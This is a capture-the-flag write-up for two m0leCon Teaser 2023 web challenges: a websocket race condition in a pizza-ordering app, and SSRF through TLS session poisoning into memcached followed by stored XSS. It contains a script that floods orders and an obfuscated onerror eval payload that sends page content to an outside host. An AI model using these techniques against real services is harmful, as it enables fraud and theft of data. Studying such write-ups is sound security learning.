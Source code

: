 ```yaml
---
layout: post
title: m0leCon Teaser 2023 Writeup
tags: [ctf, ctf writeup, ctf web]
---
```


[m0leCon Teaser 2023](https://ctf.m0lecon.it/)  
[On CTFtime](https://ctftime.org/event/1898)

Overall good CTF with challenging original fun challenges.

On this page:

- [goldinospizza2](#goldinospizza2) - Web, websocket API, exploit race condition
- [Print template 2](#print-template-2) - SSRF via TLS poisoning to request Memcached. I did not solve this challenge, did the writeup based on discussions.

## goldinospizza2

The challenge was released at about 2:40 AM BST as the "[~~patched~~ *improved* version of `goldinospizza`](https://discord.com/channels/1100159162794655904/1100159163096633447/1106757967291879506)", which was about over 8 hours into the CTF. It was just before I was planning to go to bed, but the challenge looked solvable😅.

The challenge was a web challenge with a website that allowed you to order pizza with a registered account. Most of the pizzas' prices were ranging between 6 and 15, but there was one pizza named "The flagship of pizzas" that costs 1,000,000. The flag will be shown if this pizza is successfully ordered. The initial account balance is 30.

Looking through the code, there are two websocket API functions that are interesting, one is `order`, and another one is `cancel`. The `order` function is used to order a pizza, and the `cancel` function is used to cancel an order and get refund.

The `order` function is implemented as follows:

```python
def order(data, ws, n):
    # Some checks on input omitted
    for item in data["orders"]:
        # Some checks on input omitted
        if type(item["quantity"]) is not int:
            db.session.rollback()
            raise AssertionError("ONE OF YOUR 🍕 'quantity' IS NOT INT")
        if item["quantity"] <= 0:
            db.session.rollback()
            raise AssertionError("ONE OF YOUR 🍕 'quantity' IS NOT VALID")
        product = db.session.execute(db.select(Product).filter(
            Product.id == item["product"])).scalars().one_or_none()
        if product is None:
            db.session.rollback()
            raise AssertionError("WE DON'T SELL THAT 🍕")
        quantity = item["quantity"]
        current_user.balance -= product.price * quantity
        if current_user.balance < 0:
            db.session.rollback()
            raise AssertionError("NO 🍕 STEALING ALLOWED!")
        db.session.add(Order(
            user_id=current_user.id,
            product_id=product.id,
            product_quantity=quantity,
            product_price=product.price
        ))
        if product.id == 0 and quantity > 0:
            ws.send(
                f"WOW you are SO rich! Here's a little extra with your golden special 🍕: {os.environ['FLAG']}")
    db.session.add(current_user)
    db.session.commit()
    return len(data["orders"]), {"ok": True, "balance": current_user.balance, "orders": _orders()}
```

In the code, I identified that there is a race condition that can be exploited to make total order larger than we have in the balance, and cancel the order to refund so we can have more balanced than we started with.

We can blast with multiple websocket requests to make order, and if the previous order has not been committed to the database, the next request is still checked against the old balance.

To make programming easier, I did scripting within the browser console within the context of the website. After some initial test, my balance increased to 66.00 from the initial 30.00.

![Balance increased to 66.00](/assets/image/m0lecon-teaser-2023-writeup/pizza-balance.png)

The script I used to blast the order is as follows:

```javascript
let message = {
    "request": "order",
    "orders": [{
        "product": 19,
        "quantity": 9792,
    }, ],
}
for (let i = 1; i < 20; i++) {
    const ws = new WebSocket(`wss://goldinospizza2.challs.m0lecon.it/sock`);
    ws.addEventListener("open", (event) => {
        ws.send(JSON.stringify(message))
    })
}
```

The connection will get killed after some numbers of requests. To scale this up, when I repeated the process, I increased the quantity of each of the order to the amount that I can afford with the balance. Then my available balance increased increases exponentially.

With enough balance, order the golden "The flagship of pizzas", get the flag and submitted at 4:00 AM BST. Enjoy the 🍕:

```
ptm{https://youtu.be/Uzryuem5NDc lets make pizza greater than zero again https://www.giallozafferano.com/recipes/Pizza-Margherita.html}
```

The author has [a different solution](https://discord.com/channels/1100159162794655904/1100159163096633453/1108006782871285770) to desync the balance in the session and the database, with multiple order/cancel requests can be sent in one websocket request, and how the order/cancel is handled.

## Print template 2

A challenge with a web app under the misc category. IIRC the challenge was released after a while since the CTF started. It was a hard challenge, with team "organizers" first blooded it at 6:06 AM BST, and team "Kalmarunionen" submitted the flag half an hour before the CTF ends. I was not able to solve it myself. This writeup follows [Sam.ninja](https://sam.ninja/) and [pilvar](https://twitter.com/pilvar222)'s solution and payloads, which appears to be the [intended solution](https://discord.com/channels/1100159162794655904/1100159163096633453/1106990892780359771 "Just link to a Discord message that one of the challenge author Xato confirms it is the intended solution").

The webapp lets user import templates and "print" them by substitute the place holders in the template with data, and download the print.

![Import template](/assets/image/m0lecon-teaser-2023-writeup/import-template.png)

The user can also submit a "premium request" for review, which will be reviewed by the admin bot. Part of the template which renders the bot will visit is as follows:

```html
<img src=data:image/png;base64,<%= request.img %>>
<p class="my-3"><%= request.msg %></p>
```

As with `<%=` tag in EJS, the output will be HTML escaped, so it is not possible to inject script with `msg`, however it is possible to inject script in the `img` tag with `onerror` attribute.

On the web server, the file uploaded will be encoded in base64 and stored in memcached as the `img` value being used when rendering the template. With it rendered into base64, it is not possible to inject script into the `img` tag. However, if it is possible to control the content stored into memcached, it is possible to inject script into the `img` tag.

### SSRF via TLS Poisoning

We cannot make request from our machine directly, we will need to leverage SSRF to make request to memcached.

The "import template" function allows us to import template from a URL. The URL can be a http or https URL, and the server will make the request. The SSRF is exploited via TLS session resumption by injecting payload into session ID. As memcached commands are newline terminated and invalid input will be skipped, it is possible to inject command with new lines. [This TLS Poison PoC](https://github.com/jmdx/TLS-poison) is used to implement the exploit. More details about the exploit can be found in [the presentation at DEF CON Safe Mode](https://youtube.com/watch?v=qGpAJxfADjo).

With some modification to the PoC, a customised TLS server and DNS server for DNS rebinding is set up. Make HTTPS request to the TLS server, the TLS server will response a redirect with the TLS session ID being the payload. The client will be repeatedly redirected to the TLS server until the client makes another request to the DNS server, which will resolve to the target IP. As the TLS session ID is keyed by the hostname and port but not IP address, the session ID is reused for the request to the target IP. The request will be made to the target IP with the payload in the session ID.

It is shown in the image below that the payload is in the request made by the curl client to the localhost target.

![TLS Poisoning](/assets/image/m0lecon-teaser-2023-writeup/tls-poisoning.png)

### Send Payload into Memcached

When request the bot to review, the bot will visit every unvisited requests by the user where an UUID is generated and saved when the request is submitted. The UUID is also used as the key to store the request in memcached. However, the UUID is not revealed to the user. The UUID is generated with `Math.random`. The user IDs are also UUIDs generated with the same library, with knowing enough sequentially generated user IDs, it is possible to predict the future UUIDs.

In this writeup, I skipped the steps bruteforcing for the UUIDs, and just use the UUIDs that is printed to console when the request is submitted and the server generates it.

The script the bot executes is as follows:

```javascript
fetch("/")
    .then(x=>x.text())
    .then(x=>x.split("</h3>")[1].trim())
    .then(x=>fetch("http://x.cjxol.com/"+x))
```

The final payload for TLS session ID becomes the following:

```
set message_cd330b28-93e9-4524-a70b-d1a03fac941c 0 0 434
{"msg":"whatever","img":"a id=deny onerror=eval(String.fromCharCode(102,101,116,99,104,40,34,47,34,41,46,116,104,101,110,40,120,61,62,120,46,116,101,120,116,40,41,41,46,116,104,101,110,40,120,61,62,120,46,115,112,108,105,116,40,34,60,47,104,51,62,34,41,91,49,93,46,116,114,105,109,40,41,41,46,116,104,101,110,40,120,61,62,102,101,116,99,104,40,34,104,116,116,112,58,47,47,120,46,99,106,120,111,108,46,99,111,109,47,34,43,120,41,41))"}
set message_cd330b28-93e9-4524-a70b-d1a03fac941c 0 0 434
{"msg":"whatever","img":"a id=deny onerror=eval(String.fromCharCode(102,101,116,99,104,40,34,47,34,41,46,116,104,101,110,40,120,61,62,120,46,116,101,120,116,40,41,41,46,116,104,101,110,40,120,61,62,120,46,115,112,108,105,116,40,34,60,47,104,51,62,34,41,91,49,93,46,116,114,105,109,40,41,41,46,116,104,101,110,40,120,61,62,102,101,116,99,104,40,34,104,116,116,112,58,47,47,120,46,99,106,120,111,108,46,99,111,109,47,34,43,120,41,41))"}
```

The payload is repeated twice as the injection sometimes does not work as expected. The image tag sets ID to `deny` as the bot will click on the deny button which can cause a navigation before the script is executed. With image ID set as `deny`, the bot will not click on the deny button and click the image instead which does not cause a navigation.

In the `get-template` page, import template from the URL pointing to the TLS server. After a while, the web server will make request to Memcached and the payload will be stored in Memcached.

When querying Memcached directly, we can see the payload is stored in Memcached.

![Payload is in Memcached](/assets/image/m0lecon-teaser-2023-writeup/memcached.png)

When requested to review the requests, the bot will visit the page and execute the script. The flag is exfiltrated.

![Flag is exfiltrated](/assets/image/m0lecon-teaser-2023-writeup/flag.png)

The image is showing the fake flag for testing, and the real flag is:

```
ptm{why_an0ther_ch4ll_w1th_4_b0t??}
```
